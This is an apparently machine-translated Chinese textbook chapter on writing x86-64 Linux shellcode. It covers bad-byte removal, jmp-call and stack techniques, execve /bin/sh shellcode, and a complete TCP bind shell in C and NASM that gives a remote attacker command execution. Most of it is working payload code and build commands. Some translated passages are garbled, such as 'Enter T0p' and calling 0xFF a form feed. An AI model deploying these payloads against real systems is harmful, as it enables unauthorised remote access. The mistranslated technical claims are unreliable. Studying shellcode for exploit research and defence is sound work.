# 五、创建 Shellcode

让我们准备深入探讨这个主题，我们将使用到目前为止学到的知识来创建简单、完全定制的 Shellcode。当我们面对坏角色的障碍并找到消除它们的方法时，这将变得更加冒险。接下来，我们将看到如何创建高级 Shellcode，以及如何使用 Metasploit 框架自动创建 Shellcode。

以下是我们将在本章中介绍的主题：

*   基础和坏角色
*   相对地址技术
*   execve 系统调用
*   绑定 TCP 外壳
*   反向 TCP 外壳
*   使用 Metasploit 生成 Shellcode

# 基础

首先，让我们从什么是 Shellcode 开始。正如我们前面已经看到的，Shellcode 是一种机器代码，可以用作堆栈溢出攻击中注入的有效负载，可以从汇编语言获得。

因此，我们必须做的很简单：编写我们希望 Shellcode 作为程序集执行的操作，然后执行一些修改，并将其转换为机器代码。

让我们尝试生成 hello world Shellcode，并将可执行表单转换为机器代码。我们需要使用`objdump`命令：

```
$ objdump -D -M intel hello-world
```

上述命令的输出显示在以下屏幕截图中：


你看到那个红色长方形盒子里有什么吗？这是 hello world 示例的机器代码。但我们需要将其转换为以下形式：`\xff\xff\xff\xff`，其中`ff`表示操作代码。您可以一行一行地手动完成，但这会有点乏味。我们可以仅使用一行代码自动完成此操作：

```
$ objdump -M intel -D FILE-NAME | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

让我们用我们的代码尝试一下：

```
$ objdump -M intel -D hello-world | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s 
```

上述命令的输出显示在以下屏幕截图中：


这是我们的机器语言：

```
\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x48\xbe\xd8\x00\x60
\x00\x00\x00\x00\x00\xba\x0c\x00\x00\x00\x0f\x05\xb8\x3c\x00
\x00\x00\xbf\x01\x00\x00\x00\x0f\x05\x68\x65\x6c\x6c\x6f\x20
\x77\x6f\x72\x6c\x64\x0a
```

接下来，我们可以使用以下代码来测试我们的机器：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =

"\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x48\xbe\xd8\x00\x60
\x00\x00\x00\x00\x00\xba\x0c\x00\x00\x00\x0f\x05\xb8\x3c\x00
\x00\x00\xbf\x01\x00\x00\x00\x0f\x05\x68\x65\x6c\x6c\x6f\x20
\x77\x6f\x72\x6c\x64\x0a";

int main()
{
   printf("Shellcode Length: %d\n", (int)strlen(code));
   int (*ret)() = (int(*)())code;
   ret();
}
```

让我们编译并运行它：

```
$ gcc -fno-stack-protector -z execstack hello-world.c 
$ ./a.out
```

上述命令的输出显示在以下屏幕截图中：



您可以从前面的输出中看到我们的 Shellcode 不起作用。原因是里面的坏角色。这将带我们进入下一节，讨论如何删除它们。

# 坏角色

坏字符是可以中断 Shellcode 执行的字符，因为它们可以被解释为其他字符。

例如，考虑 Enter T0p，这意味着零值，但它将被解释为 null 终止符，并将用于终止字符串。现在，为了证明这一点，让我们再看看前面的代码：

```
"\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x48\xbe\xd8\x00\x60
\x00\x00\x00\x00\x00\xba\x0c\x00\x00\x00\x0f\x05\xb8\x3c\x00
\x00\x00\xbf\x01\x00\x00\x00\x0f\x05\x68\x65\x6c\x6c\x6f\x20
\x77\x6f\x72\x6c\x64\x0a";
```

当我们试图执行它时，我们得到了一个错误，`Shellcode Length: 14`。如果您查看第 15<sup class="calibre172">th</sup>操作代码，您将看到`\x00`，它被解释为空终止符。

以下是错误字符的列表：

*   `00`：这是零值或空终止符（`\0`）
*   `0A`：这是换行符（`\n`）
*   `FF`：这是表单提要（`\f`）
*   `0D`：这是回车（`\r`）

现在，如何从 Shellcode 中删除这些坏字符？实际上，我们可以使用到目前为止在汇编中所知道的方法来删除它们，例如根据移动数据的大小选择一个寄存器的哪个部分。例如，如果我想将一个小值（如`15`移动到 RAX），我们应该使用以下代码：

```
mov al, 15
```

或者，我们可以使用算术运算，例如，将`15`移动到 RAX 寄存器：

```
xor rax, rax
add rax, 15
```

让我们看看我们的机器代码，一次一个指令：


第一条指令是`mov rax, 1`，它包含`0`，因为我们试图将`1`字节（8 位）移动到 64 位寄存器。因此，它将用零填充其余部分，我们可以使用`mov al, 1`修复，因此我们将`1`字节（8 位）移动到 RAX 寄存器的 8 位部分；让我们确认一下：

```
global _start

section .text

_start:
    mov al, 1
    mov rdi, 1
    mov rsi, hello_world
    mov rdx, length
    syscall

    mov rax, 60
    mov rdi, 1
    syscall

section .data
    hello_world: db 'hello world',0xa
    length: equ $-hello_world
```

现在，运行以下命令：

```
$ nasm -felf64 hello-world.nasm -o hello-world.o
$ ld hello-world.o -o hello-world
$ objdump -D -M intel hello-world
```

上述命令的输出显示在以下屏幕截图中：



我们设法从第一条指令中删除了所有坏字符。让我们用第二条指令尝试另一种方法，即使用算术运算，如加法或减法。

首先，我们需要使用`xor`指令`xor rdi, rdi`清除寄存器。现在，RDI 寄存器包含零；我们在其价值上加上`1``add rdi, 1`：

```
global _start

section .text

_start:
    mov al, 1
    xor rdi, rdi
    add rdi, 1
    mov rsi, hello_world
    mov rdx, length
    syscall

    mov rax, 60
    mov rdi, 1
    syscall

section .data
    hello_world: db 'hello world',0xa
    length: equ $-hello_world
```

现在，运行以下命令：

```
$ nasm -felf64 hello-world.nasm -o hello-world.o
$ ld hello-world.o -o hello-world
$ objdump -D -M intel hello-world
```

上述命令的输出显示在以下屏幕截图中：



我们也解决了这个问题。让我们修复所有这些，并将`hello world`字符串移动到下一节：

```
global _start

section .text

_start:
    mov al, 1
    xor rdi, rdi
    add rdi, 1
    mov rsi, hello_world
    xor rdx,rdx
    add rdx,12 
    syscall

  xor rax,rax
  add rax,60
  xor rdi,rdi
  syscall

section .data
    hello_world: db 'hello world',0xa
```

现在，运行以下命令：

```
$ nasm -felf64 hello-world.nasm -o hello-world.o
$ ld hello-world.o -o hello-world
$ objdump -D -M intel hello-world
```

上述命令的输出显示在以下屏幕截图中：


我们设法从 Shellcode 中删除了所有的坏字符，这就让我们在复制字符串时如何处理地址。

# 相对地址技术

相对地址是相对于 RIP 寄存器的当前位置，相对值是避免在汇编中使用硬编码地址的一种非常好的技术。

我们怎么能做到呢？实际上，通过使用`lea <destination>, [rel <source>]`，它变得非常简单，`rel`指令将计算源相对于 RIP 寄存器的地址。

我们需要在代码本身之前定义变量，而代码本身又必须在当前位置之前定义；否则，它将是一个短值，寄存器的其余部分将用如下所示的零填充：



现在，让我们使用此技术修改 Shellcode 以修复`hello world`字符串的位置：

```
global _start

section .text

_start:
    jmp code
    hello_world: db 'hello world',0xa

code:
    mov al, 1
    xor rdi, rdi
    add rdi, 1
    lea rsi, [rel hello_world]
    xor rdx,rdx
    add rdx,12 
    syscall

    xor rax,rax
    add rax,60
    xor rdi,rdi
    syscall
```

现在，运行以下命令：

```
$ nasm -felf64 hello-world.nasm -o hello-world.o
$ ld hello-world.o -o hello-world
$ objdump -D -M intel hello-world
```

上述命令的输出显示在以下屏幕截图中：


没有坏角色！让我们将其作为 Shellcode 进行尝试：

```
$ objdump -M intel -D hello-world | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

上述命令的输出显示在以下屏幕截图中：


现在，让我们尝试编译此 Shellcode，并使用 C 代码运行它：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =

"\xeb\x0c\x68\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64\x0a\xb0\x01\x48\x31\xff\x48\x83\xc7\x01\x48\x8d\x35\xe4\xff\xff\xff\x48\x31\xd2\x48\x83\xc2\x0c\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05";

int main()
{

    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();

}
```

现在，运行以下命令：

```
$ gcc -fno-stack-protector -z execstack hello-world.c
$ ./a.out
```

上述命令的输出显示在以下屏幕截图中：



成功了！现在，这是我们的第一个 Shellcode。

让我们来看更多关于如何处理地址的技巧。

# jmp 调用技术

现在，我们将讨论一种处理字符串地址的新技术，**jmp 调用**技术。

这种技术只是首先对我们要移动到特定寄存器的字符串发出`jmp`指令。之后，我们使用`call`指令调用实际代码，将字符串的地址推送到堆栈，然后将地址放入该寄存器。请看下一个示例，以充分了解此技术：

```
global _start

section .text

_start:
    jmp string

code:
    pop rsi
    mov al, 1
    xor rdi, rdi
    add rdi, 1
    xor rdx,rdx
    add rdx,12 
    syscall

    xor rax,rax
    add rax,60
    xor rdi,rdi
    syscall

string:
    call code
    hello_world: db 'hello world',0xa
```

现在，运行以下命令：

```
$ nasm -felf64 hello-world.nasm -o hello-world.o
$ ld hello-world.o -o hello-world
$ objdump -D -M intel hello-world
```

上述命令的输出显示在以下屏幕截图中：



没有坏人；现在让我们回顾一下我们所做的。首先，我们对字符串执行一条`jmp`指令，然后使用`call`指令调用实际代码，这将导致下一条指令被推入堆栈；让我们看看 GDB 中的代码：

```
$ gdb ./hello-world
$ set disassembly-flavor intel
$ break _start
$ run
$ stepi
```

上述命令的输出显示在以下屏幕截图中：



下一条指令是使用`call code`指令调用代码。请注意堆栈中将发生什么：



`hello world`字符串的地址被推入堆栈，下一条指令是 pop`rsi`，它将`hello world`字符串的地址从堆栈移动到 RSI 寄存器。

让我们尝试将其用作 Shellcode：

```
$ objdump -M intel -D hello-world | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s 
```

上述命令的输出显示在以下屏幕截图中：


在 C 代码中实现相同的功能：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\xeb\x1f\x5e\xb0\x01\x48\x31\xff\x48\x83\xc7\x01\x48\x31\xd2\x48\x83\xc2\x0c\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05\xe8\xdc\xff\xff\xff\x68\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64\x0a";
int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

让我们编译并运行它：

```
$ gcc -fno-stack-protector -z execstack hello-world.c
$ ./a.out
```

上述命令的输出显示在以下屏幕截图中：


# 堆栈技术

在这里，我们将学习另一种使用堆栈处理地址的技术。这很简单，但我们有两个障碍。首先，我们只允许在一次操作中将 4 个字节推入堆栈，我们将使用寄存器来帮助我们完成这项操作。第二，我们必须将字符串按相反的顺序推出堆栈，我们将使用 Python 来完成这项工作。

让我们试着解决第二个障碍。使用 Python，我将定义`string = 'hello world\n'`，然后我将反转我的字符串并使用`string[::-1].encode('hex')`在一行中将其编码为`hex`。接下来，我们将对字符串进行反向编码：



完成！现在，让我们尝试解决第一个障碍：

```
global _start

section .text
_start:

    xor rax, rax
    add rax, 1
    mov rdi, rax
    push 0x0a646c72
    mov rbx, 0x6f57206f6c6c6548
    push rbx
    mov rsi, rsp
    xor rdx, rdx
    add rdx, 12
    syscall

    xor rax, rax
    add rax, 60 
    xor rdi, rdi 
    syscall
```

首先，我们将 8 个字节推送到堆栈中。我们可以在每次操作中将剩余的部分放入堆栈中，再除以 4 个字节，但我们也可以使用寄存器在一次操作中移动 8 个字节，然后将该寄存器的内容放入堆栈中：

```
$ nasm -felf64 hello-world.nasm -o hello-world.o
$ ld hello-world.o -o hello-world
$ objdump -M intel -D hello-world | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

上述命令的输出显示在以下屏幕截图中：



让我们尝试将其用作 Shellcode：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\x48\x31\xc0\x48\x83\xc0\x01\x48\x89\xc7\x68\x72\x6c\x64\x0a\x48\xbb\x48\x65\x6c\x6c\x6f\x20\x57\x6f\x53\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x0c\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05";
int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

现在，运行以下命令：

```
$ gcc -fno-stack-protector -z execstack hello-world.c
$ ./a.out
```

上述命令的输出显示在以下屏幕截图中：


那也很容易。

在下一节中，我们将讨论如何使用`execve`系统调用生成有用的 Shellcode。

# execve 系统调用

现在，我们将学习如何使用`execve`生成有用的 Shellcode。在继续之前，我们必须了解`execve`系统调用是什么。它是用于执行程序或脚本的系统调用。让我们举一个例子，说明如何使用`execve`使用 C 语言读取`/etc/issue`文件。

首先，让我们来看看下面的要求：

```
$ man 2 execve
```

上述命令的输出显示在以下屏幕截图中：


正如它所说，第一个参数是我们想要执行的程序。

第二个参数`argv`是指向与我们要执行的程序相关的参数数组的指针。另外，`argv`应该包含程序的名称。

第三个参数是`envp`，它包含我们想要传递给环境的任何参数，但我们可以将此参数设置为`NULL`。

现在，让我们构建 C 代码来执行`cat /etc/issue`命令：

```
#include <unistd.h>

int main()
{
    char * const argv[] = {"cat","/etc/issue", NULL};
    execve("/bin/cat", argv, NULL);
    return 0;
}
```

让我们编译并运行它：

```
$ gcc execve.c
$ ./a.out
```

上述命令的输出显示在以下屏幕截图中：



它给了我们`/etc/issue`文件的内容，即`Kali GNU/Linux Rolling \n \l`。

现在，让我们尝试使用`execve`系统调用在汇编中执行`/bin/sh`。在这里，我将使用堆栈技术；让我们一步一步地执行此代码：

```
 char * const argv[] = {"/bin/sh", NULL};
 execve("/bin/sh", argv, NULL);
 return 0;
```

首先，我们需要使用`NULL`作为堆栈中分离的标志。然后，我们将堆栈指针移动到 RDX 寄存器以获得第三个参数：

```
xor rax, rax
push rax
mov rdx, rsp
```

然后，我们需要将路径`/bin/sh`推送到堆栈中，因为我们只有七个字节，代码中不需要任何零，所以我们推`//bin/sh`或`/bin//sh`。让我们反转此字符串，并使用 Python 将其编码为`hex`：

```
string ='//bin/sh'
string[::-1].encode('hex')
```

上述命令的输出显示在以下屏幕截图中：


现在我们已经准备好了字符串，让我们使用任何寄存器将其推入堆栈，因为它包含 8 个字节：

```
mov rbx, 0x68732f6e69622f2f
push rbx
```

让我们将 RSP 移到 RDI 寄存器以获得第一个参数：

```
mov rdi, rsp
```

现在，我们需要推另一个`NULL`作为字符串分隔，然后我们需要通过推 RDI 内容来指向字符串的指针，这是字符串到堆栈的地址。然后，我们将堆栈指针移动到 RDI 寄存器以获得第二个参数：

```
push rax
push rdi 
mov rsi,rsp 
```

现在，我们所有的论点都准备好了；让我们获取`execve`系统调用号码：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep execve
```

上述命令的输出显示在以下屏幕截图中：



`execve`系统调用号为`59`：

```
add rax, 59
syscall
```

让我们把代码放在一起：

```
global _start

section .text

_start:
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

现在，运行以下命令：

```
$ nasm -felf64 execve.nasm -o execve.o
$ ld execve.o -o execve $ ./execve
```

上述命令的输出显示在以下屏幕截图中：



让我们将其转换为 Shellcode：

```
$ objdump -M intel -D execve | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

上述命令的输出显示在以下屏幕截图中：



我们将使用 C 代码注入 Shellcode：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

现在，运行以下命令：

```
$ gcc -fno-stack-protector -z execstack execve.c
$ ./a.out
```

上述命令的输出显示在以下屏幕截图中：


# TCP 绑定外壳

现在，让我们进一步做一些真正有用的事情，即构建一个 TCP 绑定 shell。

TCP 绑定 shell 用于在一台机器（受害者）上设置一台服务器，该服务器正在等待另一台机器（攻击者）的连接，从而允许另一台机器（攻击者）在服务器上执行命令。

首先，让我们看看 C 语言中的绑定 shell，了解它是如何工作的：

```
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>

int main(void)
{
  int clientfd, sockfd;
  int port = 1234;
  struct sockaddr_in mysockaddr;

  sockfd = socket(AF_INET, SOCK_STREAM, 0);
  mysockaddr.sin_family = AF_INET; //--> can be represented in
  numeric  as 2
  mysockaddr.sin_port = htons(port);
  mysockaddr.sin_addr.s_addr = INADDR_ANY;// --> can be represented
  in  numeric as 0 which means to bind to all interfaces

  bind(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));

  listen(sockfd, 1);

  clientfd = accept(sockfd, NULL, NULL);

  dup2(clientfd, 0);
  dup2(clientfd, 1);
  dup2(clientfd, 2);
  char * const argv[] = {"sh",NULL, NULL};
  execve("/bin/sh", argv, NULL);
  return 0;
}
```

让我们将其分解为若干部分，以了解其工作原理：

```
sockfd = socket(AF_INET, SOCK_STREAM, 0);
```

首先，我们创建了一个套接字，它包含三个参数。第一个参数是定义协议族，它是`AF_INET`，表示 IPv4，可以用`2`以数字形式表示。第二个参数是指定连接类型，这里，`SOCK_STREAM`表示 TCP，可以用`1`以数字形式表示。第三个参数是协议，它被设置为`0`，它告诉操作系统选择最合适的协议来使用。现在让我们找到`socket`系统调用号码：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep socket
```

上述命令的输出显示在以下屏幕截图中：



从获得的输出中，`socket`系统调用号为`41`。

让我们在部件中创建第一个零件：

```
xor rax, rax
add rax, 41
xor rdi, rdi
add rdi, 2
xor rsi, rsi
inc rsi
xor rdx, rdx
syscall
```

输出值`sockfd`将存储在 RAX 寄存器中；让我们将其移动到 RDI 寄存器：

```
mov rdi, rax
```

现在进入下一部分，即填充结构`mysockaddr`，作为`bind`功能的输入：

```
 sockfd = socket(AF_INET, SOCK_STREAM, 0);
 mysockaddr.sin_family = AF_INET;
 mysockaddr.sin_port = htons(port);
 mysockaddr.sin_addr.s_addr = INADDR_ANY;
```

我们需要一个指针的形式；此外，我们必须按相反的顺序推进堆栈。

首先，我们推送`0`表示绑定到所有接口（4 字节）。

其次，我们以`htons`（2 字节）的形式推送端口。要将端口转换为`htons`，我们可以使用 Python：


这是我们的港口（`1234`），以`htons`的形式（`0xd204`）。

第三，我们推送值`2`，表示`AF_INET`（2 字节）：

```
xor rax, rax 
push rax
push word 0xd204
push word 0x02
```

设置好结构后，让我们准备`bind`函数：

```
bind(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));
```

`bind`函数有三个参数。第一个是`sockfd`，已经存储在 RDI 寄存器中；第二个是引用形式的结构；第三个是我们结构的长度，它是`16`。现在剩下的是获取`bind`系统调用号码：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep bind
```

上述命令的输出显示在以下屏幕截图中：



从前面的截图可以看到，`bind`系统调用号为`49`；让我们创建`bind`系统调用：

```
mov rsi, rsp
xor rdx, rdx
add rdx, 16
xor rax, rax
add rax, 49
syscall
```

现在，让我们设置`listen`函数，它接受两个参数：

```
listen(sockfd, 1);
```

第一个参数是`sockfd`，我们已经将其存储在 RDI 寄存器中。第二个参数是一个数字，表示服务器可以接受的最大连接数，这里只允许一个。

现在，让我们获取`listen`系统调用号码：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep listen
```

上述命令的输出显示在以下屏幕截图中：


现在，让我们构建`bind`系统调用：

```
xor rax, rax
add rax, 50
xor rsi , rsi
inc rsi 
syscall
```

我们将继续讨论下一个函数，即`accept`：

```
 clientfd = accept(sockfd, NULL, NULL);
```

`accept`函数有三个参数。第一个是`sockfd`，同样，它已经存储在 RDI 寄存器中；我们可以将第二个和第三个参数设置为零。我们来获取`accept`系统调用号码：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep accept
```

上述命令的输出显示在以下屏幕截图中：


```
xor rax , rax
add rax, 43
xor rsi, rsi
xor rdx, rdx
syscall
```

`accept`功能的输出，即：；`clientfd`将存储在 RAX 寄存器中，因此让我们将其移动到更安全的地方：

```
mov rbx, rax
```

执行`dup2`系统调用：

```
 dup2(clientfd, 0);
 dup2(clientfd, 1);
 dup2(clientfd, 2);
```

现在，我们将执行它三次，以将我们的文件描述符复制到`stdin`、`stdout`和`stderr`，分别取（`0`、`1`、`1`。

`dup2`系统调用接受两个参数。第一个参数是本例中的旧文件描述符，它是`clientfd`。第二个参数是我们新的文件描述符（`0`、`1`、`2`）。现在，让我们获取`dup2`系统调用号码：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep dup2
```

上述命令的输出显示在以下屏幕截图中：



现在，让我们构建`dup2`系统调用：

```
mov rdi, rbx
xor rax,rax
add rax, 33
xor rsi, rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall
```

然后，我们添加我们的`execve`系统调用：

```
char * const argv[] = {"sh",NULL, NULL};
execve("/bin/sh", argv, NULL);
return 0;

xor rax, rax
push rax
mov rdx, rsp
mov rbx, 0x68732f6e69622f2f
push rbx
mov rdi, rsp
push rax
push rdi
mov rsi,rsp
add rax, 59
syscall
```

现在，一切都准备好了；让我们将所有部分放在一个代码中：

```
global _start

section .text

_start:

;Socket syscall
    xor rax, rax
    add rax, 41
    xor rdi, rdi
    add rdi, 2
    xor rsi, rsi
    inc rsi
    xor rdx, rdx
    syscall

; Save the sockfd in RDI Register 
    mov rdi, rax

;Creating the structure 
    xor rax, rax 
    push rax
    push word 0xd204
    push word 0x02
;Bind syscall
    mov rsi, rsp
    xor rdx, rdx
    add rdx, 16
    xor rax, rax
    add rax, 49
    syscall

;Listen syscall
    xor rax, rax
    add rax, 50
    xor rsi , rsi
    inc rsi
    syscall

;Accept syscall
    xor rax , rax
    add rax, 43
    xor rsi, rsi
    xor rdx, rdx
    syscall

;Store clientfd in RBX register 
    mov rbx, rax

;Dup2 syscall to stdin
    mov rdi, rbx
    xor rax,rax
    add rax, 33
    xor rsi, rsi
    syscall

;Dup2 syscall to stdout
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Dup2 syscall to stderr
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Execve syscall with /bin/sh
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

让我们组装并链接它：

```
$ nasm -felf64 bind-shell.nasm -o bind-shell.o
$ ld bind-shell.o -o bind-shell
```

让我们将其转换为 Shellcode：

```
$ objdump -M intel -D bind-shell | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

